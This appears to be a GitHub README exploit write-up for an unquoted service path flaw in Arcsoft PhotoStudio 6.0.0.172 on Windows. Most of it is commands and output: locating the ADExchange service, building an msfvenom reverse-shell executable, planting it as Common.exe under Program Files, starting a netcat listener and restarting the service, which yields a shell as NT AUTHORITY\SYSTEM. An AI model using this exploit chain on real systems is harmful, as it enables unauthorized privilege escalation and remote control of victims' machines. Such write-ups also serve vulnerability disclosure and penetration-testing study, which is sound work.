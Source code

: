 <a target="_blank" href="https://img.shields.io/badge/plateform-windows-blue.svg" rel="noopener noreferrer">
    <img src="https://img.shields.io/badge/plateform-windows-blue.svg">
</a>
<a target="_blank" href="https://img.shields.io/badge/version-6.0.0.172-yellow" rel="noopener noreferrer">
    <img src="https://img.shields.io/badge/version-6.0.0.172-yellow">
</a>
<a href="" rel="nofollow">
    <img src="https://img.shields.io/badge/unquoted_service_path-red">
</a>

```bash
##########################################################################
#                                                                        #
#  Exploit Title: Arcsoft PhotoStudio 6.0.0.172 - Unquoted Service Path  #
#  Date: 2023/04/22                                                      #
#  Exploit Author: msd0pe                                                #
#  Vendor Homepage: https://www.arcsoft.com/                             #
#  My Github: https://github.com/msd0pe-1                                #
#                                                                        #
##########################################################################
```

<h3>Arcsoft PhotoStudio:</h3>
Versions =< 6.0.0.172 contains an unquoted service path which allows attackers to escalate privileges to the system level.

<h2>Find the unquoted service path:</h2>

```bash
    > wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """

    ArcSoft Exchange Service   ADExchange   C:\Program Files (x86)\Common Files\ArcSoft\esinter\Bin\eservutil.exe   Auto
```

<h2>Get informations about the service:</h2>

```bash
    > sc qc "ADExchange"

    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: ADExchange
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 0   IGNORE
            BINARY_PATH_NAME   : C:\Program Files (x86)\Common Files\ArcSoft\esinter\Bin\eservutil.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : ArcSoft Exchange Service
            DEPENDENCIES       :
            SERVICE_START_NAME : LocalSystem

```

<h2>Generate a reverse shell:</h2>

```bash
    > msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe -o Common.exe
 ```

<h2>Upload the reverse shell to C:\Program Files (x86)\Common.exe</h2>

```bash
    > put Common.exe
    > ls
    drw-rw-rw-          0  Sun Apr 23 04:10:25 2023 .
    drw-rw-rw-          0  Sun Apr 23 04:10:25 2023 ..
    drw-rw-rw-          0  Sun Apr 23 03:55:37 2023 ArcSoft
    drw-rw-rw-          0  Sun Apr 23 03:55:36 2023 Common Files
    -rw-rw-rw-       7168  Sun Apr 23 04:10:25 2023 Common.exe
    -rw-rw-rw-        174  Sun Jul 24 08:12:38 2022 desktop.ini
    drw-rw-rw-          0  Sun Apr 23 03:55:36 2023 InstallShield Installation Information
    drw-rw-rw-          0  Thu Jul 28 13:00:04 2022 Internet Explorer
    drw-rw-rw-          0  Sun Jul 24 07:27:06 2022 Microsoft
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 Microsoft.NET
    drw-rw-rw-          0  Sat Apr 22 05:48:20 2023 Windows Defender
    drw-rw-rw-          0  Sat Apr 22 05:46:44 2023 Windows Mail
    drw-rw-rw-          0  Thu Jul 28 13:00:04 2022 Windows Media Player
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 Windows Multimedia Platform
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 Windows NT
    drw-rw-rw-          0  Fri Oct 28 05:25:41 2022 Windows Photo Viewer
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 Windows Portable Devices
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 Windows Sidebar
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 WindowsPowerShell

```

<h2>Start listener</h2>

```bash
    > nc -lvp 4444
```

<h2>Reboot the service/server</h2>

```bash
    > sc stop "ADExchange"
    > sc start "ADExchange"
```

OR

```bash
    > shutdown /r
```

<h2>Enjoy !</h2>

```bash
    192.168.1.102: inverse host lookup failed: Unknown host
    connect to [192.168.1.101] from (UNKNOWN) [192.168.1.102] 51309
    Microsoft Windows [Version 10.0.19045.2130]
    (c) Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami

    nt authority\system
```